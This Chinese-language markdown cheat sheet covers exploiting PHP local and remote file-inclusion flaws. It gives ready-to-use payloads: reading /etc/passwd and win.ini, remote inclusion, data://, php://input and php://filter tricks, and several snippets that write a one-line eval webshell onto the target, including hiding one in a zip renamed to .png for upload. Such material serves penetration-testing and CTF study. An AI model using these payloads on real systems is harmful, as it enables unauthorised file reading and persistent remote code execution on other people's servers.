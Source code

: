 # 文件包含漏洞
## 利用点函数
```php
<?php
require '1.php'; #包含错误会报错并停止运行
require_once '1.php';
include '1.php'; #包含错误会报错但继续运行
include_once '1.php';
file_get_contents('1.php','r');
?>
```
## 验证
> windows系统
>>?a=type C:\Windows\win.ini

> linux系统
>> ?a=cat /etc/passwd

## file
- ?a=file:///etc/passwd
## http/https
- ?a=https://www.xxx.com/1.php

- 利用条件

allow_url_fopen、allow_url_include

1.php可以写一个写入一句话木马的内容
```php
<?php
$a = "<?php eval(\$_POST['123'])?>";
$b = fopen("a.php","w") or die("123!");
fwrite($b,$a);
fclose($b);
echo "木马已生成.";    
echo '<br/>';
?>
## 自动生成a.php,密码为123
```
那么在对方机器上就自动生成了一个木马，链接即可利用
## data
data协议是一个数据封装的协议

data协议格式：

  data:[<mime type>][;charset=<charset>][;base64],<encoded data>

解析：

  第一部分 data: 标识这是data协议

  第二部分 mime：表示这串内容以什么方式展现，几种常用的类型：

    第三部分charset：编码设置，可省略，省略则会使用默认的编码显示，

常用的也就 utf-8 / unicode / gbk 这几个

  第四部分base64：不是必选，代表是否对后面的数据使用base64解码，即数据是不是base64编码的数据

- 利用条件

allow_url_fopen、allow_url_include php>=5.2

```url
?a=data://text/plain,<?php phpinfo();?>
?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
?a=data://text/plain,<?php fputs(fopen('a.php','w'),'<?php @eval($_GET['qqqqq'])?>');?>
```
## php
### php://filter读取源码
- 不受 allow_url_fopen 、allow_url_include 开启与否的限制
- 利用方法
```url
?a=php://filter/read=convert.base64-encode/resource=flag.php
?a=php://filter/convert.base64-encode/resource=flag.php
```
### php://input
- 利用条件

allow_url_include=on

- 利用方法(数据包内)
```post
GET /index.php?a=php://input
xxxxxxxxxx

<?php phpinfo();?>
```
- 写入一句话木马
```post
GET /index.php?a=php://input
xxxxxxxxxx

<?php fputs(fopen('a.php','w'),'<?php @eval($_GET['qqqqq'])?>');?>
```
## phar
phar协议要求：php大于5.3.0

需要将php.ini的参数phar.readonly设置为off

- 利用过程

写一个一句话木马2.php

```php
<?php
@eval($_POST['qqqqq']);
?>
```

然后将2.php添加到压缩包为2.zip

接下来将2.zip重命名为2.png

然后上传文件2.png,查找路径，即可利用

![](./i/1.png)


以下的这种包含方式在这样的情况下是无效的。

include(一个规定的路径+可控点)

## zip
- 利用过程

写一个一句话木马2.php

```php
<?php
@eval($_POST['qqqqq']);
?>
```

然后将2.php添加到压缩包为2.zip,上传，即可利用
![](./i/2.png)